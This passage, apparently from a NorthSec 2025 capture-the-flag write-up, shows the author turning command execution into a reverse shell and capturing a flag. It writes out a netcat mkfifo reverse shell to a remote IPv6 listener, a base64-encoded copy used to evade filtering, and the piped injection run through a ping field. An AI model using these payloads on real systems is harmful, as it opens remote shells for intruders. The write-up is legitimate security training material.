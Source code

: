 And we got an RCE as the `app` user:

![RCE result](./res/nsec25/rce-id-result.png)

As a bonus, you can see your own request on the log:

![Bonus](./res/nsec25/log-rce.png)

Now that we have a RCE, we want to have a reverse shell, so let's make one. We choose to encode it with `base64` since there is some filtering.

* The initial reverse shell : `rm /tmp/ff; mkfifo /tmp/ff;cat /tmp/ff | /bin/sh -i 2>&1 | nc 9000:6666:6666:6666:216:3eff:feb1:8d80 8089 > /tmp/ff`
* The encoded reverse shell : `cm0gL3RtcC9mZjsgbWtmaWZvIC90bXAvZmY7Y2F0IC90bXAvZmYgfCAvYmluL3NoIC1pIDI+JjEgfCBuYyA5MDAwOjY2NjY6NjY2Njo2NjY2OjIxNjozZWZmOmZlYjE6OGQ4MCA4MDg5ID4gL3RtcC9mZg==`
* The final command to run on the ping shell : `9000:d37e:c40b:d1b5:218:55ff:fe94:ec1a | echo -n cm0gL3RtcC9mZjsgbWtmaWZvIC90bXAvZmY7Y2F0IC90bXAvZmYgfCAvYmluL3NoIC1pIDI+JjEgfCBuYyA5MDAwOjY2NjY6NjY2Njo2NjY2OjIxNjozZWZmOmZlYjE6OGQ4MCA4MDg5ID4gL3RtcC9mZg== | base64 -d -w 0 | sh`

After some recognition we have been able to find the next flag on the `/` folder:

```powershell
$ ls -la
total 31                                               
drwxr-xr-x  20 root   root     25 May 15 20:43 .           
drwxr-xr-x  20 root   root     25 May 15 20:43 ..
lrwxrwxrwx   1 root   root      7 Apr 22  2024 bin -> usr/bin
drwxr-xr-x   2 root   root      2 Feb 26  2024 bin.usr-is-merged
drwxr-xr-x   2 root   root      2 Apr 22  2024 boot
drwxr-xr-x   8 root   root    480 May 16 13:31 dev
drwxr-xr-x  73 root   root    151 May 15 20:43 etc
-rw-r--r--   1 root   root     46 May 15 20:43 flag
#
$ cat flag
FLAG-986ded23879c8f9173492f4257d3460ddea5b878
```

One point, awesome:

```powershell
$ /snap/bin/askgod submit FLAG-986ded23879c8f9173492f4257d3460ddea5b878
Congratulations, you score your team 1 points!
Message: Destination Reached, look around for your next treasure 3/6
```

